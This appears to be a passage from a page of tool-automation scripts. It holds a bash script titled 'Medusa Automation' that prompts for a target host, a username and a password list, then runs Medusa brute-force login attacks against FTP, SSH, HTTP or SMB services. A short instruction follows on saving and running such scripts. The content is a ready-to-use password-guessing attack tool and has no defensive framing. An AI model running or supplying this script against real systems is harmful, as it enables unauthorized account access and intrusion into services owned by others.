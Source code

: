 ### Medusa Automation

```bash
#!/bin/bash

echo "Let's perform a Medusa brute force attack..."

echo "-----------------------------------------------
Select the type of attack you want to perform:
1. FTP
2. SSH
3. HTTP
4. SMB
------------------------------------------------"

read -p "Option you selected ==> " option

read -p "Enter the target IP or hostname: " target
read -p "Enter the username: " username
read -p "Enter the password list path: " passlist

case "$option" in
    1)
        echo "Performing FTP brute force attack..."
        medusa -h "$target" -u "$username" -P "$passlist" -M ftp
        ;;
    2)
        echo "Performing SSH brute force attack..."
        medusa -h "$target" -u "$username" -P "$passlist" -M ssh
        ;;
    3)
        echo "Performing HTTP brute force attack..."
        read -p "Enter the URL path (e.g., /login): " urlpath
        medusa -h "$target" -u "$username" -P "$passlist" -M http -m DIR:"$urlpath"
        ;;
    4)
        echo "Performing SMB brute force attack..."
        medusa -h "$target" -u "$username" -P "$passlist" -M smb
        ;;
    *)
        echo "Invalid option selected."
        ;;
esac
```

Each script is designed to automate the usage of a specific tool with common options. Save each script to a file, make them executable, and run them as needed. Ensure the respective tool is installed and properly configured on your system before running the scripts.